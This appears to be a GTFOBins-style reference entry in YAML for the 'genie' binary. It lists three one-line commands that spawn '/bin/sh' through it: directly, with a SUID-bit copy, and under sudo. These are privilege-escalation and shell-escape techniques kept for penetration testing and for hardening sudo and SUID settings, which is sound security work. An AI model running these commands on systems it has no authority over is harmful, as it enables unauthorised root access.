```yaml
---
functions:
  shell:
    - code: genie -c '/bin/sh'
  suid:
    - code: ./genie -c '/bin/sh'
  sudo:
    - code: sudo genie -c '/bin/sh'
---
```

